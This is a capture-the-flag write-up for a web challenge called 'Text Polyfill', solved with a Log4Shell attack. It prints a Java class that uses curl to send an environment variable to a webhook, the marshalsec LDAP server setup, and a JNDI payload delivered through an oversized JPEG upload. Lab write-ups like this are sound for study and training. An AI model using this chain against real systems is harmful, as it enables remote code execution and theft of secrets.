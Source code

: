 # 🧑‍🎨 Text Polyfill

- name: 🧑‍🎨 Text Polyfill
- solves: 18
- points: 320
- categories
  - web
- attachments
  - [`text-polyfill_.zip`](text-polyfill_.zip)

> __WEB // 🧑‍🎨 Text Polyfill (Score: 320 / Solves: 18)__
>
> We feel your pain. You love to generate art with AI, but hate the fact it can't put simple text on your pictures. Well... Fear no more. Our simple website allows to add any text to your AI generated images without a hassle. Enjoy!
>
> - <https://text-polyfill-982935551e3a.1753ctf.com/>
> - <https://dl.1753ctf.com/text-polyfill/?s=DxzafMfy>

## solution

Create a Java file that sends the `flag` environment variable to a webhook, and save the file as `foo.java`:

```Java
public class foo {
  static {
    try {
      Runtime.getRuntime().exec(new String[] { "curl", "https://webhook.site/33295a37-d040-49dc-9be2-47623f59931f",
          "-d", String.valueOf(System.getenv("flag")) });
    } catch (Exception e) {
      e.printStackTrace();
    }
  }
}
```

Serve that file using LDAP. Download the LDAP server from <https://github.com/RandomRobbieBF/marshalsec-jar.git> (which is compiled from <https://github.com/mbechler/marshalsec>). Compile the file and launch the LDAP server:

```shell
javac foo.java -source 8 -target 8
python -m http.server
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://(your external IP):8000/#Exploit"
```

Upload a blank JPEG image of width 39984, height 29984, and with 4 color channels, with the text `${jndi:ldap://(your external IP):1389/foo}`:

```Python
with post(
    "https://text-polyfill-982935551e3a.1753ctf.com/process",
    data={
        "text": "${jndi:ldap://(your external IP):1389/foo}",
    },
    files={
        "image": Path("image.jpg").read_bytes(),
    },
) as res:
    print(res.status_code)
```

After a while, the flag should appear in your webhook. The flag is `1753c{generate_text_to_get_an_epic_rce}`.

## process

When we enter the website, we find that we can input an image and some text, and the server will return an image with the text on it.

So we want to find the server code and see if there is anything to exploit. The server code is [`text-polyfill_/src/main/java/com/ctf/ImageTextServer.java`](text-polyfill_/src/main/java/com/ctf/ImageTextServer.java). Only `doPost` is relevant because it is the only place where we can input custom data. So the exploit must be there.

Also, from the source, the flag is in an environment variable, so we would need some run some arbitrary code to get the flag. However, it is at this point, where one must use one's knowledge to find the exploit. At first, you can't find a location that can execute arbitrary code. But if you know that Java had had several vulnerabilities involving logging, then you can infer that the logging code is the exploitable part. Checking [`text-polyfill_/pom.xml`](text-polyfill_/pom.xml) confirms the exploit, as the Log4j version `2.14.1` is exploitable.

However, the only place where the logger is used is in the exception handler that catches `Exception`, and before that is another exception handler that catches `IOException`:

```Java
try {
    // ...
} catch (IOException e) {
    response.setStatus(HttpServletResponse.SC_INTERNAL_SERVER_ERROR);
} catch (Exception e) {
    logger.error("Error processing image with text: " + text);
    response.setStatus(HttpServletResponse.SC_INTERNAL_SERVER_ERROR);
}
```

So we need to find a way to trigger a non-`IOException` `Exception`. Looking at the official docs of each method, does not help, however, as either the exception is a subclass of `IOException`, or the exception is not trigger-able. At this point, you would also need some prior experience to think that there might be some undocumented exceptions, which is triggered by pushing the limits of the methods... In this case, it turns out if your JPEG image dimension is large enough, `ImageIO.read` would error out with an non-`IOException` with the message `Invalid scanline stride`. Also see <https://bugs.openjdk.org/browse/JDK-8272998>.

So we need to make an extremely large JPEG image. Using Python in our case:

```Python
cv2.imwrite("image.jpg", np.zeros((39984, 29984, 4)))
```

And then upload that to the server. This will now trigger the logger. You can check whether it is working by logging `${jndi:ldap://(external IP)}`, which will trigger a DNS request. So use a DNS logger.

Next step is exploiting Log4shell. After some research online, you should know one way to exploit Log4shell for arbitrary code execution:

You need to log the text `${jndi:ldap://(your external IP):1389/foo}`. Then the server will connect to `(your external IP):1389/foo`. Now, if you host a LDAP server there that redirects the request to another URL that has a Java class file, the server will run that Java class file. So if that other URL is also our own server: `(your external IP):8000/foo.class`, then we can execute arbitrary code on the server.

So that explains the setup in [§ solution](#solution). All that is left is making your own code payload to grab the flag and send it to a webhook and hosting a server. It is still very troublesome though.

One thing to note though. The text is obtained in the server using this code:

```Java
String text = request.getParameter("text");
```

In turns out it will check both the URL query parameters and the request payload. If you think it only checks the URL parameters, then you would have some fun with Cloudflare. If you send the JNDI text through the URL parameters, Cloudflare would block your request. This is because their server is using Cloudflare. It's very difficult to bypass it. So don't be me and spend a bit of time on trying to bypass Cloudflare, not knowing that sending the JNDI text through the request payload also works.

